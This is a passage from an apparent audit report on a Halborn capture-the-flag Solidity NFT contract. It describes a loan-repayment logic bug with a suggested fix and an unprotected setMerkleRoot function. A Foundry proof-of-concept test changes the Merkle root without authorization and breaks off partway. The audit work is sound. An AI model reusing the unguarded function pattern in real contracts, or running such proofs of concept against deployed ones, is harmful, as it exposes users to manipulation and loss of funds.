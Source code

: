 #### Setup:
- The user deposits an NFT as collateral and takes out a loan of 1 ether.

#### Loan Repayment:
- The user attempts to repay the loan by calling the `returnLoan` function.

#### Exploit:
- Due to incorrect logic, the `returnLoan` function **increases the user's debt** rather than reducing it.
- As a result, the `usedCollateral` mapping reflects an **inflated debt amount**.



### **Recommendation:**
Fix the logic by subtracting the repayment amount:

```solidity 
- usedCollateral[msg.sender] += amount;
```

to
``` solidity
+ usedCollateral[msg.sender] -= amount;
```

---



### **C-02: Unauthorized Access to `setMerkleRoot` Allows Arbitrary Changes**
- **Link:** [HalbornNFT.sol#L41](https://github.com/HalbornSecurity/CTFs/blob/6bc8cc1c8f5ac6c75a21da6d5ef7043f0862603b/HalbornCTF_Solidity_Ethereum/src/HalbornNFT.sol#L41)

### **Description:**
The `setMerkleRoot` function lacks an **authorization check**, allowing **any user** to modify the Merkle root, compromising the integrity of the NFT minting process.

```solidity
function setMerkleRoot(bytes32 merkleRoot_) public {
    merkleRoot = merkleRoot_;
}
```

### POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/HalbornNFT.sol";

contract HalbornNFTTest is Test {
    HalbornNFT nft;

    function setUp() public {
        nft = new HalbornNFT();
        nft.initialize(bytes32(0), 1 ether);
    }

    function testUnauthorizedMerkleRootUpdate() public {
        // Attempt to set a new Merkle root without authorization
        bytes32 maliciousRoot = keccak256(abi.encodePacked("malicious"));
        nft.setMerkleRoot(maliciousRoot);

        // Verify the Merkle root has been changed
```